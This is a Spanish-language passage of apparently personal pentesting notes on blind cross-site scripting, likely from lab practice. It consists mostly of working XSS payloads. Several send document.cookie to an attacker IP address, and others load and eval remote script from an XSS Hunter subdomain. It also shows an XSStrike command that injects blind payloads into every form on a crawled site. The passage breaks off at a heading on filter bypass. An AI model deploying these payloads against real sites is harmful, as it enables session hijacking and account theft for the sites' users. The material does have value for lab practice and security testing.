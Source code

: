 Ahora podemos comenzar a probar estas cargas útiles una por una usando una de ellas para todos los campos de entrada y agregando el nombre del campo después de nuestra IP, como se mencionó anteriormente, como:

```html
"><script src=http://10.10.14.145:8080/picture?c=document.cookie></script> #this goes inside the full-name field

<script src=http://OUR_IP/username></script> #this goes inside the username field
```

ejemplo:

```html
"><script src=http://10.10.14.145:8080/pic></script>

<!--steal cookie-->
"><script src="http://10.10.14.145:8000/test.php?c="+document.cookie></script>
"><script>new Image().src="http://10.10.14.145:8000/cookie.php?c="+document.cookie;</script>
```

![[Pasted image 20221220160755.png]]

### XSSTRIKE

El uso de esta opción durante el rastreo hará que XSStrike inyecte su carga útil XSS ciega definida `core/config.py` para que se inyecte en cada parámetro de cada formulario HTML.

```bash
python xsstrike.py -u http://example.com/page.php?q=query --crawl --blind
```

### XSS Hunter

Disponible en [https://xsshunter.com/app](https://xsshunter.com/app)

> XSS Hunter le permite encontrar todo tipo de vulnerabilidades de secuencias de comandos entre sitios, incluido el XSS ciego que a menudo se pasa por alto. El servicio funciona alojando sondas XSS especializadas que, al dispararse, escanean la página y envían información sobre la página vulnerable al servicio XSS Hunter.

```javascript
"><script src=//yoursubdomain.xss.ht></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>

<script>$.getScript("//yoursubdomain.xss.ht")</script>
```


## BYPASS DE FILTROS
